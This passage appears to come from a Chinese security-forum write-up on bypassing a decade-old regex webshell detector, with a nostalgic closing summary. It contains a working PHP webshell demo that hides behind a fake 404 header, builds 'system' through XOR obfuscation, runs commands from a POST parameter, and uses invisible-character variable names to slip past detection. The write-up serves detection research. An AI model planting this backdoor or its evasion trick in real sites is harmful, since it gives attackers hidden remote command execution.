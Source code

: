 观察发现，拐来拐去最终还是 `$f()` 的一个结构，而这个结构，恰恰是 `\$[\w-_\'\\[\\]{}\.\$\*/|]+(\s|\/\*.*?\*\/)*\(.*?\)` 这个正则表达式识别和匹配的结构

![跨越十年-7.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-9f5c71263a81d36b58b37ab4fc4575e575e127ff.png)

那我们该怎么绕过呢？这个时候我发现，正则表达式在匹配 `$f()` 的 `$f` 前头的这个变量的时候，使用的是 `[\w-_\'\\[\\]{}\.\$\*/|]+`，那我能不能使用不可见字符绕过呢？

说干就干，我写了以下demo：

```php
header('HTTP/1.1 404');
class Aabyss{
    public $c='';
    function __destruct(){
        $ = ('.$.48]' ^ ']]]@]0');   //通过异或运算，得到高危函数system
    return $($this->c);
    }
}
$runrun=new Aabyss();
@$runrun->c=$_POST['zg'];
```

传参后，成功执行 `calc` 弹出计算器：

![课后作业-2.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-78d613c4e7572cd87a77222864f6ee018b54164a.png)

绕过正则表达式的匹配，成功ByPass：

![课后作业-3.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-c05e1d6e5a625f8271c18be58b5e067390e0f657.png)

背后原理：在早期PHP版本（版本号 &lt; `7.1.9`）当中，不可见字符串是允许作为变量所存在的，那我可以通过十六进制编辑器，将变量改为不可见字符串即可：

![课后作业-4.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-cb4dcfaf54b706f02ff65f5e7ef5846328e5c545.png)

![课后作业-5.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-a697094f927772d0c7ffbfcd8d7b98c5f14087ee.png)

从而根据PHP的语法结构，成功绕过了该正则表达式，实现了ByPass

5# 总结
=====

2013年那个时代，正是国内网络安全行业刚刚扬帆起航的时代  
可以看到，在那个还在用着 `D盾` 和 `菜刀caidao` 的时代，对于WebShell的查杀还是基于正则匹配式，回想现在的 `语义分析（AST）`、`机器学习（AI）` 来对WebShell进行查杀，不可谓时代的车轮仍在滚滚向前

谁能想到，在十年后，在互联网的犄角旮旯里面，我还能重拾前人的经验、回忆和热枕，带着他们继续向前

十年过去了，这位 `lakehu` 师傅，你还好吗？如果不是隐退江湖，想必也已成为一方大佬了吧，向各位推动中国网络安全发展的师傅致以崇高的敬意！

- - - - - -

后续有师傅回复我了，找到了这位 `lakehu` 师傅的后续，还真是大佬，可以看链接：<https://zhuanlan.zhihu.com/p/100400881>
